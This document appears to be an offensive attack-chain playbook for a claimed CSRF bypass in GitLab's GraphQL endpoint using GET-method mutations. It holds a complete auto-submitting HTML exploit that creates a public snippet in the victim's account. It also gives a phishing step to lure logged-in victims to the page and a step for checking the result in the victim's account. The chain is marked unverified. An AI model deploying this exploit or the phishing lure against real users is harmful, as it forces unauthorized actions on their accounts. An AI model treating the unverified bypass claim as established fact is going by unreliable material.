

# CSRF Bypass in GitLab GraphQL Endpoint Allowing Unauthorized Snippet Creation

Multi-stage attack chain demonstrating a complete CSRF bypass workflow in GitLab's /api/graphql endpoint, where mutations can be executed via unauthenticated GET requests, skipping CSRF token checks enforced only for POST.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard web hosting and browser)

### Target Environment

- GitLab instance (e.g., gitlab.com)
- GraphQL API endpoint at /api/graphql
- Authenticated user session

### Initial Access Requirements

- Ability to host HTML file publicly (e.g., GitHub Pages, local server with ngrok)
- Social engineering to trick victim into clicking a link while logged into GitLab
- No prior access to victim account needed beyond tricking them to visit the page

## Detailed Attack Procedures

### Step 1: Create and Host Malicious HTML
procedure: [[procedures/Create-and-Host-Malicious-HTML-Form-for-GitLab-CSRF]]

**Objective**: Prepare and deploy a malicious HTML page that auto-submits a GET request to GitLab's GraphQL endpoint with a state-changing mutation.

**Instructions**: Create an HTML file with a form targeting the GraphQL endpoint using GET method, embedding a GraphQL mutation to create a snippet. Host it on a public server.

Example HTML content:

```html
<!DOCTYPE html>
<html>
<head><title>CSRF Exploit</title></head>
<body>
    <form id="csrf-form" action="https://gitlab.com/api/graphql" method="GET">
        <input type="hidden" name="query" value="mutation createSnippet($snippet: CreateSnippetInput!) { createSnippet(input: $snippet) { snippet { id title } } }">
        <input type="hidden" name="variables" value='{"snippet":{"title":"Tesssst Snippet","description":"Test description","visibility":"public","file_path":"test.txt","content":"Malicious content here"}}'>
    </form>
    <script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

Upload this to a hosting service and obtain the URL.

**Expected Output**: Hosted page URL that, when visited, auto-submits the form.

**Success Indicators**:
- HTML file hosted successfully
- Page loads and auto-submits without errors in browser console

### Step 2: Induce Authenticated Victim to Visit Malicious Page
procedure: [[procedures/Induce-Authenticated-Victim-to-Visit-Malicious-Page]]

**Objective**: Trick the victim into loading the malicious page while their GitLab session is active, triggering the unauthorized mutation.

**Instructions**: Ensure the victim is logged into GitLab. Send a phishing link (e.g., via email or chat) disguised as a legitimate resource, pointing to the hosted HTML URL. The page will load and immediately submit the GET request using the victim's cookies.

No specific command needed; rely on social engineering.

**Expected Output**: Victim's browser sends GET request to /api/graphql, executing the mutation silently.

**Success Indicators**:
- Victim confirms clicking the link
- No visible alerts or blocks on the page

### Step 3: Verify Unauthorized Snippet Creation
procedure: [[procedures/Verify-Unauthorized-Snippet-Creation-in-GitLab]]

**Objective**: Confirm the exploit by checking for the newly created snippet in the victim's GitLab account.

**Instructions**: Log into the victim's GitLab account (or ask them to check) and navigate to Snippets section. Look for a new snippet titled "Tesssst Snippet" with the specified content.

**Expected Output**: New snippet appears in the user's snippets list.

**Success Indicators**:
- Snippet created with attacker-specified details
- No CSRF token error in network logs

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection by using GET requests to GraphQL mutations
2. Forced authenticated user to perform state-changing actions without interaction
3. Demonstrated potential for broader account modifications via similar mutations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
